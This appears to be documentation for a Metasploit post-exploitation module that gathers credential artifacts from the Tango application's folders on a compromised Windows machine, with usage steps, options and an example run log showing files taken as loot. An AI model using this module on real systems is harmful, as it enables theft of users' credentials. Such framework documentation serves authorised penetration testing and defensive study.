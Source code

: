 ## Module Description

This post-exploitation module gathers artifacts found on tango related folders from end users systems.

The list of available artifcts are listed within the module and can be added at anytime. Each artifacts are categorised so that users can specify a category to look for.


## Verification Steps

1. Start MSF console
2. Get a Meterpreter session on a Windows system
3. use post/windows/gather/credentials/tango
4. Set SESSION 1
5. enter 'run' to extract credentials from all applications


## Options
### REGEX

Users can set their own regular expressions so that it could be applied for the credential extraction. The default is set to ^password.

### VERBOSE

By default verbose is turned off. When turned on, the module will show information on files which aren't extracted and information that is not directly related to the artifact output.


### STORE_LOOT
This option is turned on by default and saves the stolen artifacts/files on the local machine,
this is required for also extracting credentials from files using regexp, JSON, XML, and SQLite queries.


### EXTRACT_DATA
This option is turned on by default and will perform the data extraction using the predefined regular expression. The 'Store loot' options must be turned on in order for this to take work.

## Example Run
  ```
msf post(windows/gather/credentials/tango) > run 

[*] Filtering based on these selections:  
[*] ARTIFACTS: All
[*] STORE_LOOT: true
[*] EXTRACT_DATA: true

[*] Tango's parent folder found
[*] Tango's parent folder found
[*] Tango's Install.log file found
[*] Downloading C:\Users\IEUser\AppData\Local\tango\install.log
[*] Tango Install.log downloaded
[+] File saved to:  /root/.msf4/loot/20210521114758_default_192.168.56.106_tangoinstall.log_259187.log

[+] File with data saved:  /root/.msf4/loot/20210521114759_default_192.168.56.106_EXTRACTIONinstal_843961.log
[*] Tango's parent folder found
[*] Tango's Userinfo1.xml file found
[*] Downloading C:\Users\IEUser\AppData\Local\tango\userinfo1.xml
[*] Tango Userinfo1.xml downloaded
[+] File saved to:  /root/.msf4/loot/20210521114759_default_192.168.56.106_tangouserinfo1.x_614135.xml

[+] File with data saved:  /root/.msf4/loot/20210521114759_default_192.168.56.106_EXTRACTIONSuseri_076763.xml
[*] PackRat credential sweep Completed
[*] Post module execution completed
  ```
